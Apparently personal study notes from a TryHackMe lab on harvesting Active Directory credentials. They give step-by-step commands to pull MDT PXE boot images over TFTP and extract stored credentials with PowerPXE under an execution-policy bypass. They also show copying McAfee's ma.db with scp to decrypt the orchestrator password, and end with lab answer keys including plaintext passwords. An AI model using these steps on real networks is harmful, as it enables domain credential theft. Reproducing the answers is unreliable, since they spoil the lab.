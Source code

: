 ## MDT Notes

.BCD file name
```
x64{9C1BB22D-B662-487F-9322-7526E92DD907}.bcd
```

Create a directory in documents 
Copy the PowerPXE.ps1 located at C:\ file into this directory
Use TFTP and download the .bcd file, we need to be accurate when specifying file and filepaths with TFTP.
The BCD files are always located at /Tmp/ directory on the MDT server
```
tftp -i <THMMDT IP> GET "\Tmp\x64{9C1BB22D-B662-487F-9322-7526E92DD907}.bcd" conf.bcd
```
With the BCD file now recovered, we will be using powerpxe to read its contents. 

```
powershell -executionpolicy bypass
	Import-Module .\PowerPXE.ps1
	$BCDFile = "conf.bcd"
	Get-WimFile -bcdFile $BCDFile
```
![[Pasted image 20230410190201.png]]

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
```
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
```
![[Pasted image 20230410190333.png]]

Now that we have recovered the PXE Boot image, we can exfiltrate stored credentials. It should be noted that there are various attacks that we could stage. We could inject a local administrator user, so we have admin access as soon as the image boots, we could install the image to have a domain-joined machine.

Again we will use powerpxe to recover the credentials, but you could also do this step manually by extracting the image and looking for the bootstrap.ini file, where these types of credentials are often stored. To use powerpxe to recover the credentials from the bootstrap file, run the following command:
 ```
 Get-FindCredentials -WimFile pxeboot.wim
```
![[Pasted image 20230410190743.png]]

### Questions
**What Microsoft tool is used to create and host PXE Boot images in organisations?**
```
Microsoft Deployment Toolkit
```
**What network protocol is used for recovery of files from the MDT server?**
```
TFTP
```
**What is the username associated with the account that was stored in the PXE Boot image?**
```
svcMDT
```
**What is the password associated with the account that was stored in the PXE Boot image?**
```
PXEBootSecure1@
```

## Configurantion files

Suppose you were lucky enough to cause a breach that gave you access to a host on the organisation's network. ***In that case, configuration files are an excellent avenue to explore in an attempt to recover AD credentials***. Depending on the host that was breached, various configuration files may be of value for enumeration: 
````ad-note
***Configuration files are an excellent avenue to explore in an attempt to recover AD credentials***.
 
Several enumeration scripts, such as Seatbelt, can be used to automate this process.
````

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db.
The ma.db file is stored in a fixed location:
```
cd C:\ProgramData\McAfee\Agent\DB
```
![[Pasted image 20230410191340.png]]

Lets copy this file to our machine
```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

Open the database with sqlitebrowser and search for the Hash
```
jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

Use the python script provided in task files to decrypt this mcafee hash.

### Questions

***What type of files often contain stored credentials on hosts?***
```
Configuration files
```

**What is the name of the McAfee database that stores configuration including credentials used to connect to the orchestrator?**
```
ma.db
```

**What table in this database stores the credentials of the orchestrator?**
```
AGENT_REPOSITORIES
```

**What is the username of the AD account associated with the McAfee service?**
```
svcav
```

**What is the password of the AD account associated with the McAfee service?**
```
MyStrongPassword!
```
